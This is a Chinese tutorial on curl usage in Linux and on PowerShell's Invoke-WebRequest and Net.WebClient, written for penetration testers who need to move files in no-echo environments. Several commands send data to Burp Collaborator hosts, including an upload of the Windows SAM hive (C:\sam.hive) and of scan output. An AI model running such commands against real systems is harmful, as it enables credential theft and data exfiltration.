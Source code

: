 ```yaml
---
title: "curl详解"  # 文章标题
date: 2018-07-15T14:30:00+08:00  # 文章创建日期
draft: false  # 是否为草稿，true 表示草稿，不会在网站上显示
author: "runshell"  # 文章作者
description: "介绍Linux curl命令用法和Windows服务器powershell实现类似功能的方法"  # 文章描述
tags: ["网络安全","curl"]  # 文章标签
categories: ["网络安全"]  # 文章分类
---
```




## 0x00 前言

在渗透测试中经常需要在艰难的环境下执行命令，比如没有回显。为了摆脱困境，经常需要传送文件。curl是一个非常厉害的工具，在绝大多数情况下，linux系统中是存在curl的。此外Windows系统中，powershell4.0及其以后的版本中提供了一个cmlet——`Invoke-WebRequest`，其别名之一是curl。所以，简单记录一下curl的用法。

## 0x01 Linux中的curl

### 1.http请求

* **get**

curl 命令后面直接跟url；使用-H指定请求头，每个-H指定一条header；使用 -o 指定输出到具体文件而不是标准输出。

```bash
curl 'https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Referer: https://admin.college.360.cn/user/student/course/1032'
```

* **post**

普通表单post，使用-d指定请求体内容。

```bash
curl -d "user=admin&passwd=12345678" http://127.0.0.1:8080/login
```

文件表单post，使用-F指定需要上传的文件。

```bash
curl http://oumchi.burpcollaborator.net -F "6379.txt=@6379.txt"

# 发送出的请求如下：
# POST / HTTP/1.1
# Host: oumchi.burpcollaborator.net
# User-Agent: curl/7.58.0
# Accept: */*
# Content-Length: 1978
# Content-Type: multipart/form-data; boundary=------------------------c9011604f054ee36
# Expect: 100-continue

# --------------------------c9011604f054ee36
# Content-Disposition: form-data; name="6379.txt"; filename="6379.txt"
# Content-Type: text/plain


# Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-01 08:25 UTC
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:34:01 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:33:59 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.83% done; ETC: 09:00 (0:33:55 remaining)

# --------------------------c9011604f054ee36--

```

* put

```bash
curl http://6biy7e.burpcollaborator.net/ -T ca_setup.exe
```

* 其它方法测试

```bash
curl http://www.example.com -X OPTIONS
curl http://www.example.com -X TRACE
...
```

### 2.ftp请求

* **get**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/filename -o filepath
```

* **put**

```bash
curl –u name:passwd -T size.mp3 ftp://www.xxx.com/mp3/
```

* **ls(dir)**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/
```

* **delete**

```bash
curl –u name:passwd ftp://www.xxx.com/ -X 'DELE mp3/size.mp3'
```

### 3.其他

```ba&#39;sh
-u, --user <user:password> 需要口令验证的http或ftp
--ntlm 使用htlm认证
-A, --user-agent <name> 指定请求头中的user-agent字段
--socks5 <host[:port]> 使用sockes5代理
-x, --proxy [protocol://]host[:port] 使用http/https代理
 
--post301       Do not switch to GET after following a 301 不跳转301
--post302       Do not switch to GET after following a 302 不跳转302
--post303       Do not switch to GET after following a 303 不跳转303

```





## 0x02 Windows中的curl

powershell 中的curl是`Invoke-WebRequest`，它的另一个别名是wget。它是使用`-Headers <IDictionary>`来指定请求头，powershell5.x即以前版本可以指定所有请求头，之后的版本UserAgent只能通过`-UserAgent <String>`指定。

```powershell
Invoke-WebRequest [-Uri] <Uri> [-Body <Object>] [-Certificate <X509Certificate>] [-CertificateThumbprint <String>] [-ContentType <String>] [-Credential <PSCredential>
    ] [-DisableKeepAlive] [-Headers <IDictionary>] [-InFile <String>] [-MaximumRedirection <Int32>] [-Method { Default | Get | Head | Post | Put | Delete | Trace | Options
     | Merge | Patch}] [-OutFile <String>] [-PassThru] [-Proxy <Uri>] [-ProxyCredential <PSCredential>] [-ProxyUseDefaultCredentials] [-SessionVariable <String>] [-Timeou
    tSec <Int32>] [-TransferEncoding {chunked | compress | deflate | gzip | identity}] [-UseBasicParsing] [-UseDefaultCredentials] [-UserAgent <String>] [-WebSession <Web
    RequestSession>] [<CommonParameters>]
```

### 1.http

* **get**

使用-UserAgent 指定UA，使用-Headers指定请求头，使用-OutFile指定输出到文件。若不使用-OutFile，将返回一个HtmlWebResponseObject对象，只在屏幕上显示部分摘要信息，若要显示详细信息可以先将其存入变量，再查看变量content等属性。若只想产看响应体，可用管道符传给`write-host`,如`curl ifconfig.me | write-host` 。

```powershell
Invoke-WebRequest -Uri "https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc" -Headers @{"Accept"="*/*"; "Referer"="https://admin.college.360.cn"} -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36" -OutFile xxx.pdf
```

* **post**

在使用非get方法时必须用-Method指定请求方法；请求体可以用-body指定一个string或其它类型的对象，也可以从本地文件获取内容作为请求体，使用-infile指定本地文件。

```powershell
curl http://lti9gf.burpcollaborator.net -Method post -Body "user=admin&passwd=12345678" 
```

* **put**

如果服务器支持put方法，可以直接put上传文件

```powershell
curl http://lti9gf.burpcollaborator.net -Method put -InFile ‪C:\sam.hive
```

### 2.ftp

似乎只能下载文件

```powershell
curl ftp://user:password@127.0.0.1:21/s2-057.py -outFile s2-057.py
```

## 0x03 net.webclient

在powershell4.0以前没有提供`Invoke-WebRequest`,这时我们可以使用Net.WebClient，它是.NET Framework中的一个类。它的功能更加强大。

```powershell
#ftp下载
(New-Object System.Net.WebClient).downloadfile('ftp://admin:admin@172.28.100.68/ppt.txt','ppt.txt')

#ftp上传
(New-Object System.Net.WebClient).uploadfile('ftp://admin:admin@172.28.100.68/ppt1.txt','ppt.txt')

#http上传
(New-Object System.Net.WebClient).uploadfile('http://8060wg.burpcollaborator.net','ppt.txt')

#http下载文件
(New-Object System.Net.WebClient).downloadfile('http：//172.28.100.68/ppt.txt','ppt.txt')

#下载到内存
$response=(New-Object System.Net.WebClient).downloadstring('http：//172.28.100.68/ppt.txt')#得到string
$response=(New-Object System.Net.WebClient).downloaddata('http：//172.28.100.68/ppt.txt')#得到byte[]
#从内存上传
(New-Object System.Net.WebClient).uploadstring('http://8060wg.burpcollaborator.net',$response)
(New-Object System.Net.WebClient).uploaddata('http://8060wg.burpcollaborator.net',$response)

#指定请求头
$mywebclient=(New-Object System.Net.WebClient);
$mywebclient.Headers.Add("Cookie"," HMACCOUNT=057DAB164B4FC7D1; BAIDUID=3C7BA5C29716B9F251F8BC090E0BF028:FG=1; BIDUPSID=3C7BA5C29716B9F251F8BC090E0BF028; PSTM=1532227383")
$mywebclient.Headers.Add("Referer","https://newtab.firefoxchina.cn/world-tab-index.html")
$mywebclient.downloadstring('http://8060wg.burpcollaborator.net')


```
